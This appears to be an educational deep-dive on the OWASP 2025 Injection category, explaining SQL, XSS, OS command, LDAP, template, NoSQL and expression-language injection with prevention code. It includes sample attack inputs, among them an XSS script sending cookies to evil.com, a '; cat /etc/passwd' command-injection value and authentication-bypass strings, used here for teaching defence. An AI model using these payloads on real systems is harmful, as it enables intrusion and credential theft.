


# Injection Attacks — A05:2025 Deep Dive

Injection dropped from #3 to #5 in 2025, but it remains the most universally present vulnerability category — **100% of applications are tested** for some form of injection. With 37 CWEs, 1.4 million occurrences, and a staggering 62,445 CVEs (the most of any category), injection is a persistent threat that every developer must understand.

---

## What Is Injection?

An injection vulnerability exists when an application sends untrusted user input to an interpreter (database, OS shell, browser, LDAP server) and that input is executed as commands rather than treated as data.



The fundamental problem: **mixing data with code**. When user-supplied values are concatenated into executable statements, attackers can break out of the data context and inject commands.

---

## SQL Injection

The most well-known injection type. Low frequency but **high impact** — responsible for some of the largest data breaches in history.

### How It Works

**Vulnerable code (Java):**
```java
// DANGEROUS: String concatenation with user input
String query = "SELECT * FROM users WHERE username = '"
    + request.getParameter("user") + "' AND password = '"
    + request.getParameter("pass") + "'";
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(query);
```

**Attack input:**
```
Username: admin' --
Password: anything
```

**Resulting query:**
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
```

The `--` comments out the password check, granting access as admin.

### Prevention: Parameterized Queries

**Java:**
```java
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, request.getParameter("user"));
pstmt.setString(2, request.getParameter("pass"));
ResultSet rs = pstmt.executeQuery();
```

**Python:**
```python
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s",
    (username, password)
)
```

**C# (.NET):**
```csharp
string query = "SELECT * FROM users WHERE username = @user AND password = @pass";
SqlCommand cmd = new SqlCommand(query, connection);
cmd.Parameters.AddWithValue("@user", username);
cmd.Parameters.AddWithValue("@pass", password);
```

**Node.js (mysql2):**
```javascript
const [rows] = await connection.execute(
    'SELECT * FROM users WHERE username = ? AND password = ?',
    [username, password]
);
```

**PHP (PDO):**
```php
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = :user AND password = :pass');
$stmt->execute(['user' => $username, 'pass' => $password]);
```

### Real-World Breaches
- **Sony Pictures (2013)**: SQL injection cost ~$15 million in remediation
- **Marriott**: Exposed 500 million guest records
- **CVE-2025-1094**: PostgreSQL vulnerability, CVSS 8.1

---

## Cross-Site Scripting (XSS)

The most frequent injection type with **30,000+ CVEs**. XSS occurs when untrusted data is included in web page output without proper encoding, allowing attackers to execute scripts in victims' browsers.

### Three Types

```mermaid
graph TD
    subgraph "Reflected XSS"
        R1["Attacker crafts URL with script"] --> R2["Victim clicks link"]
        R2 --> R3["Server reflects script in response"]
        R3 --> R4["Script executes in victim's browser"]
    end

    subgraph "Stored XSS"
        S1["Attacker submits script<br/>(e.g., in a comment)"] --> S2["Server stores it in database"]
        S2 --> S3["Other users load the page"]
        S3 --> S4["Script executes for every visitor"]
    end

    subgraph "DOM-based XSS"
        D1["Attacker crafts URL"] --> D2["Client-side JS reads URL"]
        D2 --> D3["JS writes to DOM unsafely"]
        D3 --> D4["Script executes in browser"]
    end
```



### Attack Example
```html
<!-- Attacker submits this as a "comment" -->
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```

### Prevention: Context-Aware Output Encoding

| Context | Encoding | Example |
|---------|----------|---------|
| HTML body | HTML entity encode | `<` becomes `&lt;` |
| HTML attribute | Attribute encode | `"` becomes `&quot;` |
| JavaScript | JavaScript encode | `'` becomes `\x27` |
| URL parameter | URL encode | `<` becomes `%3C` |
| CSS | CSS encode | Hex encoding of values |

**Content Security Policy (CSP):**
```http
Content-Security-Policy: default-src 'self'; script-src 'nonce-abc123'
```

CSP blocks inline scripts unless they have a matching nonce, preventing most XSS even if output encoding is missed.

---

## OS Command Injection

Allows attackers to execute operating system commands on the server. **Extremely dangerous** — often leads to full system compromise.

### Vulnerable Pattern
```java
// DANGEROUS: User input concatenated into shell command
String domain = request.getParameter("domain");
String cmd = "nslookup " + domain;
Runtime.getRuntime().exec(cmd);
```

**Attack input:**
```
domain=example.com; cat /etc/passwd
```

### Safe Pattern
```java
// SAFE: Use ProcessBuilder with separate arguments
ProcessBuilder pb = new ProcessBuilder("nslookup", domain);
// domain is passed as a separate argument, not concatenated
```

**Python:**
```python
# DANGEROUS
os.system(f"nslookup {domain}")

# SAFE
import subprocess
subprocess.run(["nslookup", domain], check=True)
```

### Recent Alerts
CISA/FBI issued a 2025 alert on ongoing exploitation of command injection in network infrastructure: CVE-2024-20399, CVE-2024-3400, CVE-2024-21887.

---

## Other Injection Types

### LDAP Injection
Manipulates LDAP queries to bypass authentication or extract directory data:
```
Username: admin)(|(password=*))
→ Returns all users regardless of password
```

### Template Injection (SSTI)
Server-side template engines execute attacker-controlled expressions:
```
{{7*7}} → If the page shows "49", it's vulnerable
{{config.items()}} → May dump application configuration
```

### NoSQL Injection
Similar to SQL injection but targeting MongoDB, CouchDB, etc.:
```json
{"username": {"$ne": ""}, "password": {"$ne": ""}}
→ Matches any user with any non-empty password
```

### Expression Language Injection
Java EL/OGNL injection in frameworks like Struts, Spring:
```
${T(java.lang.Runtime).getRuntime().exec('whoami')}
```

---

## Why Injection Persists

Despite being well-understood, injection remains pervasive because:

1. **String concatenation feels natural** — it's the first thing developers learn
2. **Framework misuse** — ORMs provide protection but developers bypass it for complex queries
3. **Legacy code** — decades-old systems with no budget for refactoring
4. **Insufficient training** — CS curricula often treat security as elective
5. **False sense of security** — "We have a WAF" doesn't fix the root cause

---

## Defense-in-Depth Strategy



### Language Quick Reference

| Language | Safe Query Method | Avoid |
|----------|------------------|-------|
| Java | `PreparedStatement`, `ProcessBuilder` | String concatenation, `Runtime.exec()` with concat |
| Python | Parameterized `cursor.execute()`, `subprocess.run()` | `os.system()`, f-strings in queries |
| Node.js | `mysql2`/`pg` with `?` params | `eval()`, `innerHTML` with user data |
| PHP | PDO prepared statements | `mysql_*` functions, `exec()` with concat |
| C# | `SqlCommand` with `@` params | String interpolation in queries |

---

## Compliance Impact

Under GDPR, organizations face fines of up to **4% of annual global turnover or 20 million euros** (whichever is higher) for inadequate security measures. Injection vulnerabilities that lead to data breaches are a common trigger for enforcement action.

---

## References

- [A05:2025 Official — OWASP](https://owasp.org/Top10/2025/A05_2025-Injection/)
- [SQL Injection Prevention Cheat Sheet — OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Injection Prevention Cheat Sheet — OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [A05:2025 Injection Guide — IntelligenceX](https://blog.intelligencex.org/owasp-a05-2025-injection-vulnerability-guide)
- [OWASP Testing Guide: SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
